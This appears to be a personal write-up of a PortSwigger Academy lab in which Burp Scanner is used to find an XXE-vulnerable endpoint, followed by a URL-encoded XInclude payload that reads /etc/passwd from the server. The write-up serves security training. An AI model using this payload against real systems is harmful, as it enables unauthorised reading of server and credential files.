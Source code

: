 

### Lab description

This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

Due to the tight time limit, we recommend using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a [targeted scan on a specific request](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing#scanning-a-specific-request). Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.

* Hint
> If you get stuck, try looking up our Academy topic on the identified vulnerability class.

### Solution

* Do active scan using Burp to find the XXE vulnerable endpoint

![](Pasted_image20230527115426.png)

* Burp will find the vulnerable endpoint

![](Pasted_image20230527115506.png)

* Using the payload below to solve the lab

```xml
<foo%20xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include%20parse="text"%20href="file:///etc/passwd"/></foo>
```

* Lab solved!

![](Pasted_image20230527115401.png)